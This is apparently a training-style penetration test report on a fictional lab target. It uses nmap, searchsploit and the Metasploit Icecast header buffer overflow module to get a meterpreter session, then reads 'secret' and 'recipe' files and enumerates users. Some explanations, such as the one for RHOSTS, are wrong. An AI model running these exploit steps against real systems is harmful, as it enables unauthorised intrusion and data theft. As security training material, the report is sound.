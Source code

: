     GoodSecurity Penetration Test Report 

    Abdisalan-Firin@GoodSecurity.com

    DATE
    11/01/2021

 ### 1.0 High-Level Summary

GoodSecurity was tasked with performing an internal penetration test on GoodCorp’s CEO, Hans Gruber. An internal penetration test is a dedicated attack against internally connected systems. The focus of this test is to perform attacks, similar to those of a hacker and attempt to infiltrate Hans’ computer and determine if it is at risk. GoodSecurity’s overall objective was to exploit any vulnerable software and find the secret recipe file on Hans’ computer, while reporting the findings back to GoodCorp.
When performing the internal penetration test, there were several alarming vulnerabilities that were
identified on Hans’ desktop. When performing the attacks, GoodSecurity was able to gain access to his machine and find the secret recipe file by exploit two programs that had major vulnerabilities. The details of the attack can be found in the ‘Findings’ category.
       2.0 Findings

### Machine IP:
    192.168.0.20
### Hostname:
    MSEDGEWIN10
### Vulnerability Exploited:
    Exploit/windows/http/icecast_header

    Vulnerability Explanation:

The Vulnerability i found Icecast application running on 192.168.0.20 allows for a buffer overflow exploit and any attacker can remotely gain control of the victim’s system by overwriting the memory on the system utilizing the Icecast flaw, which writes past the end of a pointer array when receiving 32 HTTP headers. this will overwrite the saved instruction pointer and leave Icecast thinking one of the processor threads is still occupied by one of its methods; in reality, the running process is a malicious payload.

Some remote actions able to be executed are:

    File discovery
    Key logging 
    screen capture
    Privilege escalation to Administrator 
I also find this vulnerable to the following exploits:

    exploit/windows/local/ikeext_service
    exploit/windows/local/ms16_075_reflection

### Severity:

This exploit is very severe and Critical as it allows malicious actors to run any manor of arbitrary code on the host’s machine.

### Proof of Concept:

1. Perform a service and version scan using Nmap to determine which services are up and running: 
    nmap -sS -sV -O 192.168.0.20

nmap -sS it stands for TCP SYN port scan, where the -sV for is determine the version of the service running on port, and that the -O is the Remote OS detection using TCP/IP.
After scanning networks for vulnerabilities, we can execute the exploits that we know an organization is vulnerable to.

    Using nmap to scan the system to see any port open
 ![using nmap to scan the system](./Images/snep-1.PNG)


2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
   
     searchsploit -t Icecast windows
<Result> (exploits/windows_x86/remote/16763.rb)

Now we’ll use a tool called SearchSploit to locally store a library of exploit information and the scripts used to execute the exploits.


    Icecast exploits
![icecast exploits](./Images/snap-2.PNG)


3. Start Metasploit and search for the Icecast module and load it for use.:
 
    **msfconsole**
    **search icecast**
    **use 0**

MSFconsole provides a command line interface to access and work with the Metasploit.
The Metasploit is a computer security that provides information about security vulnerabilities and aids in penetration testing and IDS signature development. 

    starting metasploit and searching icecast
 ![RHOST setting](./Images/snap-x.PNG)
 
 ![Metasploits](./Images/snap-3.PNG)

 ![Metasploits](./Images/snap-y.PNG)

4. Set the `RHOST` to the target machine and run.

    set RHOSTS 192.168.0.20.
    run.

 Rhosts allows me to log in to a UNIX-based system from another computer on the same network.
 The rhosts file contains a list of hosts and user names that determines who can log in to a system remotely without a password

    Setting RHOST to IP adress
![RHOST setting](./Images/snap-4.PNG)


5. Search for the `secretfile.txt` on the target.

    meterpreter > search -f *secret*.
OR
    meterpreter > shell.

Meterpreter allows me to remotely take over the compromised system, having control of the file system, collect sensitive information such as credentials and secret files.
    
    The search of the secret 
![The search of secret file](./Images/snap-5.PNG)

![The search of secret file](./Images/snap-xy.PNG)

6. Search for the `recipe.txt` on the target and download the file:
    meterpreter > search -f *recipe*
    meterpreter > cd 'C:\Users/IEUser/Documents
    meterpreter > ls
    meterpreter > cat Drinks.recipe.txt
    meterpreter > cat user.secretfile.txt

    Search of the recipe
    ![search of the recipe](./Images/snap-6.PNG)
    
    ![search of the recipe](./Images/snap-f.PNG)

7. Use Meterpreter's local exploit suggester to find possible exploits.
    
    meterpreter> run post/multi/recon/local_exploit_suggestor

The system was also found to be vulnerable to the following exploits:
    
    exploit/windows/local/ikeext_service
    exploit/windows/local/ms16_075_reflection

    Using meterpreter for local exploit
   ![Using meterpreter for local exploit](./Images/snap-7.PNG)

8. Run a Meterpreter post script that enumerates all logged on users.
    
    run post/windows/gather/enum_logged_on_users
    
    
    Using meterpreter post script
  ![Using meterpreter post script](./Images/snap-8.PNG)

9. Running the sysinfo command
 
    system info
 ![sysinfo](./Images/snap-9.PNG)

 ![sysinfo](./Images/snap-a.PNG)
 
 ![sysinfo](./Images/snap-b.PNG)

### Overall Recommendations

Icecast exploit is old and the vulnerability can be fixed with a patch or Install the latest version of this and all other software.
Encrypt the files and folders that you want to keep a secret
Enable the windows firewall with rules to only explicitly allow traffic on needed ports.